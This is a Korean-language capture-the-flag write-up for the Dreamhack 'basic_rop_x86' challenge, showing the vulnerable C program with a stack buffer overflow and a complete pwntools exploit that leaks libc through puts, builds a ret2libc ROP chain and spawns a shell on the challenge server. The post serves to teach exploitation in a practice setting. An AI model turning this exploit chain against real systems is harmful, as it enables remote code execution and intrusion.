 ```yaml
---
title: "[ Dreamhack ] basic_rop_x86"
date: 2023-03-23T08:19:05.081Z
categories: [Wargame, Dreamhack]
tags: ["dreamhack","pwn"]
---
```

![](/images/977d0374-1a3b-409c-b0ce-93db5642d2a6-image.png)

## **문제 분석**

---
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(30);
}

int main(int argc, char *argv[]) {
    char buf[0x40] = {};

    initialize();

    read(0, buf, 0x400);
    write(1, buf, sizeof(buf));

    return 0;
}
```
1. 보호기법은 NX가 적용되어 있다.
2. buf를 0x40byte 할당하고 0x400byte를 read받고 있다. 그래서 BOF취약점이 발생한다.

<br>

<br>

##  **문제 풀이**

---
![](/images/dd3de8d3-c626-4650-8610-67b2415f6e95-image.png)

주어진 libc에서 문자열 "bin/sh"을 찾을 수 있다.

<br>

![](/images/56a77a8a-075e-40ab-8204-0a019e0dd444-image.png)

ROP 가젯 역시 문제에서 찾을 수 있다.

이를 이용하여 ROP를 수행하면 된다.

<br>

<br>

## **Exploit Code**


```python
from pwn import *

p = remote('host3.dreamhack.games', 22607)

e = ELF('./basic_rop_x86')
libc = ELF('./libc.so.6')

puts_plt = e.plt['puts']
puts_got = e.got['puts']

puts_offset = libc.symbols['puts']
system_offset = libc.symbols['system']
binsh_offset = next(libc.search(b'/bin/sh'))

pr = 0x080483d9

main_addr = 0x80485d9

payload = b'A'*0x44 + b'B'*0x4
payload += p32(puts_plt)
payload += p32(pr)
payload += p32(puts_got)
payload += p32(main_addr)

p.send(payload)
p.recv()

puts_addr = u32(p.recv(4))
libc_addr = puts_addr - puts_offset
system_addr = libc_addr + system_offset
binsh_addr = libc_addr + binsh_offset

payload2 = b'A'*0x44 + b'B'*0x4
payload2 += p32(system_addr)
payload2 += p32(pr)
payload2 += p32(binsh_addr)

p.send(payload2)

p.interactive()
```

